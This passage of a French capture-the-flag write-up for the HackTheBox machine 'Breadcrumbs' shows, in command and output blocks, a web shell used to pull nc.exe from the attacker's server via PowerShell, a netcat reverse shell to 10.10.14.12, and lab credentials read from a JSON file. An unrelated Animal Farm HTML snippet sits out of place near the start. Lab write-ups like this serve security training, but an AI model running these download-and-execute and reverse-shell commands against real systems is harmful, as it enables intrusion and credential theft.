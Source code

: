 ```sh
<p>About:<br>Animal Farm is an allegorical novella by George Orwell, first published in England on 17 August 1945. The book tells the story of a group of farm animals who rebel against their human farmer, hoping to create a society where the animals can be equal, free, and happy. </p>
```

Maintenant utilisez netcat pour obtenir un reverse shell.


```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs
?-?  python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.228 - - [23/Feb/2021 12:30:00] "GET /nc.exe HTTP/1.1" 200 -
```


```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=powershell%20(new-object%20Net.WebClient).DownloadFile(%27http://10.10.14.12/nc.exe%27,%27C://Users//www-data//Desktop//xampp//htdocs//portal//uploads//nc.exe%27)
```


Et là, nous obtenons un reverse shell avec succès.


```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=nc.exe%2010.10.14.12%203221%20-e%20c:/windows/system32/cmd.exe
```


```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs
?-?  nc -lvp 3221
listening on [any] 3221 ...
Ncat: Connection from 10.10.10.228.
Ncat: Connection from 10.10.10.228:50994.
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```


Après une petite balade dans les directories, j'ai trouvé un "juliette.json".


```sh
C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>type juliette.json
type juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
```
